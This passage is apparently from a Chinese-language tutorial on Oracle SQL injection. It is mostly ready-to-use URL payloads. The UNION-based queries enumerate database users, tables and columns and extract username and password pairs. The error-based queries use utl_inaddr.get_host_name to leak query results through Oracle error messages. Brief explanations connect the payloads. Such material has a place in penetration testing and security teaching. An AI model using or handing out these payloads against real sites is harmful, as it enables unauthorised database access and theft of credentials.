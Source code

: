 ```sql
2. 获取第二个用户名
?id=-1 union select 1,(select username from all_users where rownum=1 and username not in ('SYS')),'3' from dual --+
       
3. 获取当前用户名
?id=-1 union select 1,(SELECT user FROM dual),'3' from dual --+

# 获取表名
1. 获取Test用户第一张表
?id=-1 union select 1,(select table_name from all_tables where rownum=1 and owner='TEST'),'3' from dual --+
2. 获取Test用户第二张表
?id=-1 union select 1,(select table_name from all_tables where rownum=1 and owner='TEST' and table_name<>'NEWS'),'3' from dual --+

# 获取字段名
?id=-1 union select 1,(select column_name from all_tab_columns where owner='TEST' and table_name='USERS' and rownum=1),'3' from dual --+
?id=-1 union select 1,(select column_name from all_tab_columns where owner='TEST' and table_name='USERS' and rownum=1 and column_name<>'ID'),'3' from dual --+

# 获取数据
?id=-1 union select 1,(select concat(concat(username,'~~'),password) from users where rownum=1),null from dual --+
```

# 报错注入

在 oracle 注入时候出现了数据库报错信息，可以优先选择报错注入，使用报错的方式将查询数据的结果带出到错误页面中。

使用报错注入需要使用类似 1=[报错语句]，1>[报错语句]，使用比较运算符，这样的方式进行报错注入（MYSQL 仅使用函数报错即可），类似 mssql 报错注入的方式。

## utl_inaddr.get_host_name ()

`utl_inaddr.get_host_address` 本意是获取 ip 地址，但是如果传递参数无法得到解析就会返回一个 oracle 错误并显示传递的参数。

我们传递的是一个 sql 语句所以返回的就是语句执行的结果。**oracle 在启动之后，把一些系统变量都放置到一些特定的视图当中，可以利用这些视图获得想要的东西。**

```sql
# 获取用户名
?id=1 and 1=utl_inaddr.get_host_name('~'%7c%7c(select user from dual)%7c%7c'~') --+

# 获取表名
?id=1 and 1=utl_inaddr.get_host_name('~'%7c%7c(select table_name from all_tables where rownum=1 and owner='TEST')%7c%7c'~') --+

# 获取字段名
?id=1 and 1=utl_inaddr.get_host_name('~'%7c%7c(select column_name from all_tab_columns where owner='TEST' and table_name='USERS' and rownum=1)%7c%7c'~') --+

# 获取数据
?id=1 and 1=utl_inaddr.get_host_name('~'%7c%7c(select username from test.users where rownum=1)%7c%7c'~') --+
```

